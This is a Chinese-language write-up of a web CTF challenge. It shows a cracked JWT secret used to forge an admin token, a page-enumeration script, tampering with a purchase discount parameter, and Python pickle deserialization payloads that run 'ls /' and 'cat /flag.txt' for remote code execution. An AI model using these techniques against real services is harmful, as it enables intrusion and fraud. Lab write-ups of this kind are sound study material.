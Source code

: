 ![[Pasted image 20221226095504.png|500]]

---
![[Pasted image 20221226095527.png|700]]
草，地下组织是吧（

先注册一个账号试试
![[Pasted image 20221226095732.png|700]]

扫目录好像没扫出什么东西

![[Pasted image 20221226102523.png|700]]

有个jwt
```
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkNyYWNrVEMifQ.EROtea15Wqt7t3TbLzHl4silV3GhEDvAY8v6HcBiACw
```

尝试破解

```
SECRET FOUND: 1Kun
Time taken (sec): 11.454
```

伪造成`admin`
![[Pasted image 20221226105231.png|700]]

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

![[Pasted image 20221226105506.png|700]]
![[Pasted image 20221226105616.png|700]]

原来是让我们在首页找`lv6`嘛QAQ
当然是自动化（这辈子都是不可能手动去找的）
```python
import os
import requests
import time

url = 'http://d4c2ad15-e197-4f2a-860c-dc3a47dfe33e.node4.buuoj.cn:81/shop'

for i in range(1, 100000):
    response = requests.get(url, {'page': i})
    if response.text.find('lv6.png') > 0:
        print(i)
        time.sleep(0.1)
        break
```

> 180

![[Pasted image 20221226110421.png|500]]

好恶臭的价格啊（恼
![[Pasted image 20221226110619.png]]

```
_xsrf=2%7C28c03bf5%7C4c4a42fbd604997e06764c102a28edea%7C1672021882&id=1624&price=1145141919.0&discount=0.8
```
谁家`discount`这么搞的QwQ
改成`0.00000001`（居然不能直接改成`0`）

![[Pasted image 20221226110932.png]]

![[Pasted image 20221226111038.png]]
大草
![[Pasted image 20221226111057.png]]

先获取源码

```
/static/asd1f654e683wq/www.zip
```

![[Pasted image 20221226111229.png]]
高情商：节约流量
低情商：百度网盘==

![[Pasted image 20221226112353.png|700]]

![[Pasted image 20221226112419.png|700]]

```python
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

```html
<div class="ui segment">{{ res }}</div>
```

`python`里面通过`__reduce__`魔术方法来[自定义pickle反序列化行为](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler)，通过

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('ls /',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```
用`python2`是坏文明（恼

```
ccommands%0Agetoutput%0Ap0%0A%28S%27ls%20/%27%0Ap1%0Atp2%0ARp3%0A.
```

```
app bin dev etc flag.txt home lib media mnt opt proc root run sbin srv sys tmp usr var
```

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('cat /flag.txt',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

```
flag{3811325b-5913-45d0-b8e1-bd7b8e76cb65}
```

#Web #jwt #暴力破解 #源码泄漏 #python #pickle #魔术方法 #RCE #反序列化 